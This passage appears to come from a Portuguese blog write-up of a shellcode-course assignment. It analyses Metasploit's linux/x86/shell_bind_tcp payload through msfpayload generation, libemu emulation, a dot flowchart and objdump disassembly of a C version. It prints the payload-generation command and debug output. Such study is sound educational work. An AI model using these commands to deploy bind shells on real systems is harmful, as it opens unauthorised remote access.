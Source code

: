 {% highlight console %}
$ msfpayload linux/x86/shell_bind_tcp R | /opt/libemu/bin/sctest -vvv -S -s 100000
{% endhighlight %}

O libemu retorna, além da análise passo-a-passo das instruções do shellcode, uma meta linguagem esboçada em C.

{% highlight c %}
...
int dup2(int oldfd=19, int newfd=0);
[emu 0x0x199d0e0 debug ] cpu state eip=0x00417037
[emu 0x0x199d0e0 debug ] eax=0x00000000 ecx=0x00000000 edx=0x00000000 ebx=0x00000013
[emu 0x0x199d0e0 debug ] esp=0x00416fba ebp=0x00000000 esi=0x00000001 edi=0x00000000
[emu 0x0x199d0e0 debug ] Flags: PF ZF
[emu 0x0x199d0e0 debug ] 49 dec ecx
...
int dup2 (
int oldfd = 19;
int newfd = 0;
) = 0;
{% endhighlight %}

Fica bem fácil de entender as instruções, mesmo assim, optei pelo visual.

{% highlight console %}
$ msfpayload linux/x86/shell_bind_tcp R | /opt/libemu/bin/sctest -vvv -S -s 100000 -G shell_bind_tcp.dot
{% endhighlight %}

É gerado um arquivo dot que pode ser facilmente convertido em png.

{% highlight console %}
$ dot shell_bind_tcp.dot -T png -o shell_bind_tcp.png
{% endhighlight %}

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/1st.assignment/shell_bind_tcp.png" caption="Fluxograma do shell_bind_tcp" %}

Bem mais intuitivo, certo? O fluxograma clarifica a sequência de instruções.
Mesmo assim, decidi seguir outro rumo na construção do shellcode: fiz o mesmo
programa em C.

{% gist geyslan/5176234 %}

Eu poderia, neste ponto, analisá-lo usando o “objdump” ou mesmo o “ndisasm”. Mas
ao tentar fazer isso mudei de ideia. Vejam o porquê.

{% highlight console %}
$ objdump -d -M intel shell_bind_tcp_c
...
080485bc <main>:
80485bc: 55                     push ebp
80485bd: 89 e5                  mov ebp,esp
80485bf: 83 e4 f0               and esp,0xfffffff0
80485c2: 83 ec 50               sub esp,0x50
80485c5: 65 a1 14 00 00 00      mov eax,gs:0x14
80485cb: 89 44 24 4c            mov DWORD PTR [esp+0x4c],eax
80485cf: 31 c0                  xor eax,eax
80485d1: c7 44 24 30 67 2b 00   mov DWORD PTR [esp+0x30],0x2b67
80485d8: 00
80485d9: c7 44 24 08 00 00 00   mov DWORD PTR [esp+0x8],0x0
80485e0: 00
80485e1: c7 44 24 04 01 00 00   mov DWORD PTR [esp+0x4],0x1
80485e8: 00
80485e9: c7 04 24 02 00 00 00   mov DWORD PTR [esp],0x2
80485f0: e8 cb fe ff ff         call 80484c0 <socket@plt>
...
{% endhighlight %}
